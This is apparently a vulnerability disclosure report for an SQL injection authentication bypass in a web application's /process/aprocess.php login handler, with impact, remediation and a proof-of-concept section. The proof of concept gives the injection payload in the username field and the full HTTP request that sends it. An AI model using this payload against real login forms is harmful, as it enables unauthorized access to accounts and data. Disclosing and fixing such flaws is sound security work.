 # SQL Injection Authentication Bypass Report

### Title: SQL Injection Authentication Bypass
### Affected Component: /process/aprocess.php
### CWE-287: Improper Authentication
### CVSS Base Score: 7.5

### Impact:
SQL injection authentication bypass poses a significant threat by enabling unauthorized access to the system, allowing attackers to exploit vulnerabilities in authentication mechanisms. This can lead to severe consequences including unauthorized entry into sensitive areas, exposure of confidential data, manipulation of system integrity, reputational damage, and potential regulatory compliance violations. The exploit's ability to circumvent authentication safeguards undermines the confidentiality, integrity, and availability of the system, emphasizing the critical need for robust security measures and prompt mitigation of SQL injection vulnerabilities to safeguard against these multifaceted risks.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, begin by accessing the login page of the application. In the username field, input the following payload: `"admin'+--+". This payload aims to manipulate the authentication process by injecting SQL syntax to bypass the login mechanism. Upon submitting the login form with this payload, observe that the application grants access as if logged in as an administrator without requiring a valid password. This indicates successful exploitation of the SQL injection vulnerability, allowing unauthorized access to sensitive areas of the application.

#### HTTP Request:
```http
POST /process/aprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 48
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: [REDACTED]
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=admin'+--+&pwd=asdasd&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.
